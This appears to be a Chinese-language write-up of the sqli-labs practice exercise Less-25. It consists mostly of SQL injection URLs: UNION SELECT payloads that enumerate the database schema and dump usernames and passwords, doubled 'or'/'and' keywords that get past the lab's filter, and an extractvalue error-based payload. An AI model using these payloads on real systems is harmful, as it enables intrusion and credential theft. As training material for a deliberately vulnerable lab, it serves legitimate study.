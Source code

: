 暴位置

注：id的值为不正确的

```
http://daishen.ltd:1112/Less-25/?id=-1' union select 1,2,3 --+
```

暴库

```
http://daishen.ltd:1112/Less-25/?id=-1' union select 1,2,database() --+

http://daishen.ltd:1112/Less-25/?id=1' aandnd 1=2 union select 1,2,database() --+
```

爆表

```
http://daishen.ltd:1112/Less-25/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

过滤了or，在加一层or，所以双写or绕过

```
http://daishen.ltd:1112/Less-25/?id=-1' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database() --+
```

暴字段

```
http://daishen.ltd:1112/Less-25/?id=-1' union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='users' --+
```

暴值

同样password的or也会过滤成passwd

```
http://daishen.ltd:1112/Less-25/?id=-1' union select 1,2,group_concat(username,0x3a,passwoorrd) from users --+
```

### 符号替换

```none
or` -> `||
and` -> `&&
```



```none
?id=1'||extractvalue(1,concat(0x7e,database()))--+
```

# **Less-25a **
